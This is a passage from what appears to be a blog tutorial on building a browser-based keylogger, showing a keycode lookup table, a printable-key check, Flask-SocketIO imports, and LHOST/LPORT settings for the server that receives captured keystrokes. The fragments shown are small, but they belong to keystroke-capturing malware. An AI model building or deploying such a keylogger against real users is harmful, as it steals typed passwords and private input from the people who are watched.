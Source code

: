 	    '\'': '"',
	    ',' : '<',
	    '.' : '>',
	    '/' : '?',
	    '`' : '~',
	}

{% endhighlight %}

Finally, we add a function that checks to see if a keycode maps to a printable character.

{% highlight python %}

	def is_printable(ks):
	    return any([
	        ks == 8,
	        ks == 32,
	        ks == 46,
	        (ks >= 219 and ks <= 222),
	        (ks >= 186 and ks <= 191),
	        (ks >= 64 and ks <=  90),
	        (ks >= 48 and ks <=  59),
	    ])

{% endhighlight %}

The complete tables.py is pretty long, but if you want to check out the whole thing it's included with the source code at the end of the tutorial.

# WebSockets backend

With lookup tables and frontend complete, it's time to write the backend code for the server. Let's start by opening the following file.

	keylogger/run.py

We first add our import statements to the top of the file.

{% highlight python %}

	import logging
	import tables
	
	from flask import Flask, make_response, render_template, request
	from flask.ext.socketio import SocketIO, emit

{% endhighlight %}

We then set two global variables, __LHOST__ and __LPORT__, that are used to configure the script. The user should set LHOST to his or her server's fqdn or IP address, and LPORT to the port on which the keylogger server should be run.

{% highlight python %}

	LHOST = '192.168.1.90'
	LPORT = 80

{% endhighlight %}
